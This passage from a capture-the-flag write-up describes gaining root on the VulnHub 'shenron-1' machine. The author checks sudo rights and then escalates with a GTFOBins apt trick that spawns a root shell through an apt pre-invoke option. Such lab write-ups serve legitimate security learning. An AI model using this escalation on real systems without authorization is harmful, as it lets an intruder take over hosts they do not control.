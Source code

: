 I could then run `sudo -l` to see what commands shenron could run as sudo. 

[<img src="../images/shenron1/shensudo.png"
  style="width: 800px;"/>](../images/shenron1/shensudo.png)

Looking at gtfobins again to see what I could do with `apt` and I found the key to priv esc to root.  And found the root flag.

[https://gtfobins.github.io/gtfobins/apt/](https://gtfobins.github.io/gtfobins/apt/)

`sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh`

[<img src="../images/shenron1/root.png"
  style="width: 800px;"/>](../images/shenron1/root.png)

This was a really fun machine which actually was challenging at parts.  I am going to be doing the other 2 machines in the shenron series from vulnhub so please check back to see the other 2.  

Thanks for the taking the time to read this. 